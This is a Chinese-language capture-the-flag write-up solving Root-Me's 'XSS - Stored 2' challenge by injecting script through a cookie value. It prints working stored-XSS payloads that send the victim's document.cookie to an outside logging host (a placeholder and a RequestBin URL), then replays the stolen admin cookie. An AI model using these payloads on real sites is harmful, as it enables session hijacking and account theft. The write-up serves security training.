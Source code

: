 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)] [[解题报告](http://exp-blog.com/2019/01/22/pid-3166/)]

------

很直白告诉了告诉了我们是存储型 XSS 题型。注意题目要求：

`Steal the administrator session's cookie and go in the admin section.`

意思就是：**窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

注意到在挑战页面顶部有个 `admin` 超链，点击后 URL 多了个请求参数 `?section=admin` ， 但是页面内容无变化，猜测这就是需要使用 administrator 的 cookie 才能访问的页面。

------------


挑战页面有两个输入口，但是测试过，这两个输入框都对所有 html 标签字符做了过滤，无法注入。

仔细观察，发现提交输入后，页面会回显 3 个内容：

- 输入的 Title
- 输入的 Content
- 右上角的 Status 值（**似乎固定为 invite？其实不然！**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/01.png)

> 多刷新几次页面，不难注意到这台靶机后台有个 admin-robot 在定时读取提交的消息。

------------

打开浏览器开发者工具：

- 切到 Network 查看页面cookie ，发现 `status=invite` 是其中一个  cookie 值（另一个是当前用户的 `uid`）。
- 切到 Elements  查看提交回显的内容，发现 `invite` 是 &lt;i&gt; 标签的 class 值

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/02.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/03.png)


------------

使用 Burp Suite -> Repeater 任意修改 cookie 的 `status` 值后再发送请求，发现回显的内容中的 &lt;i&gt; 标签的 class 值也随之改变，说明**这就是 XSS 注入点**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/04.png)


------------

尝试构造 payloads ： `"><script>alert(1)</script>` （关闭 &lt;i&gt; 标签再注入 &lt;script&gt;）

通过 Burp Suite -> Repeater 提交，页面弹出警告对话框，注入成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/05.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/06.png)

------------

至此思路很明确了：通过 cookie 把包含 payloads 消息存储到后台，当 admin-robot 读取到这条消息时，就把这个机器人的 cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么构造一个这样的 payloads 即可实现 cookie 窃取：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))</script>`

其中对于 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/q9vld7q9`，则把 payloads 修改为：

`"><script>document.write(%22<img src=http://requestbin.fullcontact.com/q9vld7q9?%22.concat(document.cookie).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/07.png)

------------

提交 payloads 后，好不容易等到  admin-robot 读取了消息，但是在 HTTP 服务器查看  admin-robot 发送过来的请求却发现，cookie 只有 `status` 参数，缺失了最重要的 `uid` 参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/08.png)


------------


其实从 Burp Suite -> Repeater 可以发现， cookie 本来完整的值是这样的（`status` 和 `uid` 之间有**空格**）：

`status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==`

导致构造前面的 payloads 提交后， 因为这个空格使得 cookie 被拆解成两部分：

- 前半部分的 `status` 作为 &lt;img&gt; 标签的 `src` 属性被提交到 HTTP 服务器
- 后半部分的 `uid` 则成为 &lt;img&gt; 标签的一个独立属性

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/09.png)


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/10.png)

------------

因此，为了把 `uid` 的值也窃取，需要把 payloads 做了小改动，即把 `document.cookie` 的空格处理掉。

在这里我把空格替换成 `&` ，最终 payloads 如下：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/11.png)

------------


提交后成功从 HTTP 服务器收到 `ADMIN_COOKIE` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/12.png)

------------

但是注意不要急着完成挑战，因为这并不是密码，题目要求的是： **窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

把从 HTTP 服务器收到的 cookie 的 `&` 改回去空格，得到真正的  cookie 值：

`status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

将其修改到 Burp Suite -> Repeater 的请求 Cookie 后访问页面：

`http://challenge01.root-me.org/web-client/ch19/?section=admin`

得到密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/13.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
